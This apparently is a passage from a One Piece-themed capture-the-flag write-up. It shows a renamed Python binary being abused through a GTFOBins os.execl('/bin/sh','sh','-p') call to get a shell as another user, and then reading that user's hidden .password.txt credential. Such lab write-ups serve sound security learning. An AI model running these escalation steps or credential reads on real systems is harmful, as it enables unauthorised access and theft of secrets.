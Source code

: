 ```bash
M0nk3y_D_7uffy@Laugh-Tale:~$ gomugomunooo_king_kobraaa
Python 3.6.9 (default, Jul 17 2020, 12:50:27) 
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 

```

Lol it's basically python! let's ask gtfobins

```bash
>>> import os; os.execl("/bin/sh", "sh", "-p")
$ whoami
7uffy_vs_T3@ch
$ id
uid=1001(M0nk3y_D_7uffy) gid=1001(luffy) euid=1000(7uffy_vs_T3@ch) groups=1001(luffy)
$ ls /home
luffy  teach
$ cd /home/teach
$ ls
luffy_vs_teach.txt
$ cat luffy_vs_teach.txt
This fight will determine who can take the One Piece and who will be the next Pirate King.
These 2 monsters have a matchless will and none of them can let the other prevail.
Each of them have the same dream, be the Pirate King.
For one it means: Take over the World.
For the other: Be the freest man in the World.
Each of their hit creates an earthquake felt on the entire island.
But in the end, Luffy thanks to his willpower won the fight.
Now, he needs to find the One Piece.
$ ls -al
total 56
drwxr-xr-x  7 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .
drwxr-xr-x  4 root           root  4096 Jul 26  2020 ..
-rw-------  1 7uffy_vs_T3@ch teach  334 Jul 26  2020 .ICEauthority
-rw-------  1 7uffy_vs_T3@ch teach    1 Aug 14  2020 .bash_history
-rw-r--r--  1 7uffy_vs_T3@ch teach  220 Jul 26  2020 .bash_logout
-rw-r--r--  1 7uffy_vs_T3@ch teach 3771 Jul 26  2020 .bashrc
drwx------ 11 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .cache
drwx------ 11 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .config
drwx------  3 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .gnupg
drwx------  3 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .local
-r--------  1 7uffy_vs_T3@ch teach   37 Jul 26  2020 .password.txt
-rw-r--r--  1 7uffy_vs_T3@ch teach  807 Jul 26  2020 .profile
drwx------  2 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .ssh
-rw-r--r--  1 7uffy_vs_T3@ch teach    0 Jul 26  2020 .sudo_as_admin_successful
-r--------  1 7uffy_vs_T3@ch teach  479 Jul 26  2020 luffy_vs_teach.txt
$ cat .password.txt
7uffy_vs_T3@ch:Wh0_w1ll_b3_th3_k1ng?

```

